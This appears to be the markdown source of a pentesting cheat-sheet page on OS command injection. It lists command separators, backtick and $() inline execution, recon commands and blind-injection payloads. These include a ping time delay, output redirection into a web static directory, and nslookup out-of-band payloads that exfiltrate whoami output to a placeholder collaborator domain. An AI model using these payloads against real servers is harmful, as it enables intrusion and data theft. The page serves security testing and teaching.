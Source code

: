 ```yaml
---
title: OS command injection
badge: server-side
---
```


This attacks occur when applications place user input unsafely when executing shell commands.


## Basic

A basic payload when reflecting output would be:

```shell
{{ separator & }} echo {{ random-string aiwefwlguh }} {{ separator & }}
```


### Ways of OS command injection

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

```shell
&
&&
|
||
```

The following command separators work only on Unix-based systems:

```
%0a
%250a
\n
;
```

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

```shell
&grave;
{{ injected-command id }}&grave;
```

```shell
$(
{{ injected-command id }})
```

## Useful commands

When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command | Linux | Windows |
| --- | --- | --- |
| Name of current user | `whoami` | `whoami` |
| Operating system | `uname -a` | `ver` |
| Network configuration | `ifconfig` | `ipconfig /all` |
| Network connections | `netstat -an` | `netstat -an` |
| Running processes | `ps -ef` | `tasklist` |


## Blind OS command injection

Sometimes the output does not get reflected to the user.

### Detect using time delays

As with other blind injections, time allows you to confirm the presence of such vulnerabilities.
Sending ping packets is very usefull:

```bash
{{ separator & }} ping -c 10 "127.0.0.1" {{ separator & }}
```

### Exploiting redirecting output

You can redirect the output to the static resources dir for the server:


```bash
{{ separator & }} {{ injected-command whoami }} > {{ static-file-path /var/www/static/whoami.txt }} {{ separator & }}
```


### Exploiting using out-of-band (OAST) techniques

The classic. Try to reach your collaborator / interact or whatever:

```bash
{{ separator & }} nslookup "{{ random-string kgji2ohoyw }}.{{ collaborator your-collaborator.net }}" {{ separator & }}
```

Using this you can exfiltrate stuff easily.
For example:

<smart-tabs variable="inline-execution" :tabs="{'backticks': 'Backticks', 'dollar': 'Dollar'}">
<template v-slot:backticks>

```bash
{{ separator & }} nslookup "&grave;{{ injected-command whoami }}&grave;.{{ collaborator your-collaborator.net }}" {{ separator & }}
```

</template>
<template v-slot:dollar>

```bash
{{ separator & }} nslookup "$({{ injected-command whoami }}).{{ collaborator your-collaborator.net }}" {{ separator & }}
```

</template>
</smart-tabs>





